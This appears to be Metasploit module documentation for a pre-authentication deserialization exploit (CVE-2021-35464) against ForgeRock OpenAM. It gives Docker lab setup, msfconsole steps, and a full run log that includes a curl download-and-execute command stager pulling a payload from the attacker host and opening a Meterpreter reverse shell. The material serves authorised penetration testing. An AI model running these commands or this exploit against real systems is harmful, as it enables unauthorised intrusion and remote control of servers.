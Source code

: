 ## Vulnerable Application

### Description

This module leverages a pre-authentication remote code execution vulnerability
in ForgeRock’s AM identity and access management solution. The vulnerability
arises from a Java deserialization flaw in AM’s implementation of the JATO
framework and can be triggered by a simple one-line GET or POST request to a
vulnerable endpoint. Successful exploitation yields code execution on the
target system.

### Installation


#### OpenAM on Ubuntu 20.04.2 x64 with Docker version 20.10.2
```
sudo docker run -h localhost -p 7080:8080 --name openam openidentityplatform/openam
Navigate to http://<ip_address>:7080/openam
Follow manual configuration steps.  Automatic appears to fail
Default values are good for everything except ports.  Use the following values:
DIRECTORY_ADMIN_PORT = 4444
DIRECTORY_JMX_PORT = 1689
DIRECTORY_PORT = 50389
```

## Verification Steps
1. OpenAM
1. Perform manual configuration of OpenAM
1. Do: `use exploit/multi/http/multi/http/cve_2021_35464_forgerock_openam`
1. Do: `set RHOST <ip>`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `run`
1. You should get a Meterpreter session.

## Scenarios

#### OpenAM on Ubuntu 20.04.2 x64 with Docker version 20.10.2
```
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.134.134  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      7080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                         hine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT  8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > run

[*] Started reverse TCP handler on 192.168.135.197:8443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Zrrhm8JKIL8QB2Q
[*] Local IP: http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q
[*] Generated command stager: ["curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP"]
[+] Successfully executed command: curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP
[*] Client 192.168.134.134 (curl/7.64.0) requested /Zrrhm8JKIL8QB2Q
[*] Sending payload to 192.168.134.134 (curl/7.64.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.134.134
[*] Command Stager progress - 100.00% done (123/123 bytes)
[*] Meterpreter session 11 opened (192.168.135.197:8443 -> 192.168.134.134:44944) at 2021-07-02 15:59:30 -0500
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.9 (Linux 5.8.0-53-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: openam @ localhost (uid=1001, gid=0, euid=1001, egid=0)
meterpreter > 

```

